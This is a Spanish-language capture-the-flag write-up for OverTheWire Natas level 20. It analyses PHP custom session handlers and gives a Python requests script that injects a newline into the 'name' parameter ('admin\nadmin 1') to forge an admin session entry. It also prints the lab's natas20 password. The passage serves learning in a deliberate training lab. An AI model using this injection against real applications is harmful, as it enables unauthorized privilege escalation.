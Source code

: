 En este nivel, es realista decir que el ID de sesión no puede ser predicho. De hecho, parece ser totalmente aleatorio.

Al observar el código fuente, podemos ver que se definieron manejadores personalizados para la gestión del almacenamiento de sesiones. En nuestro caso, los que nos interesan son `myread()` y `mywrite()`.

En `myread()` podemos ver que el contenido del archivo de sesión se divide utilizando  (salto de línea) como carácter separador.

```php
$_SESSION = array();
foreach(explode("\n", $data) as $line) {
    debug("Read [$line]");
    ...
}
```

Además, para llenar el array `$_SESSION`, se espera que cada línea tenga la forma clave valor.

```php
$_SESSION = array();
foreach(explode("\n", $data) as $line) {
    ...
    $parts = explode(" ", $line, 2);
    if($parts[0] != "")
        $_SESSION[$parts[0]] = $parts[1];
}
```

Para autenticarse como administrador, la página verifica si la sesión contiene la clave `admin` y si su valor es `1`.

```php
function print_credentials() { /* {{{ */
    if($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1) {
        print "You are an admin. The credentials for the next level are:<br>";
        print "<pre>Username: natas21\n";
        print "Password: <censored></pre>";
    } else {
        print "You are logged in as a regular user. Login as an admin to retrieve credentials for natas21.";
    }
}
```

Cuando se envía un parámetro llamado `name`, se inicializa una nueva sesión y el valor de `name` se almacena en ella.

```python
import requests

# URL objetivo
target = 'http://natas20.natas.labs.overthewire.org'
# Credenciales 
auth = ('natas20', 'p5mCvP7GS2K6Bmt3gqhM2Fc1A5T8MVyw')

# Primera solicitud
print("#")
print("# FIRST REQUEST")
print("#")
params = dict(name='admin\nadmin 1', debug='')  
cookies = dict()
r = requests.get(target, auth=auth, params=params, cookies=cookies)
phpsessid = r.cookies['PHPSESSID']
print(r.text)

print("\n\n")
print("#")
```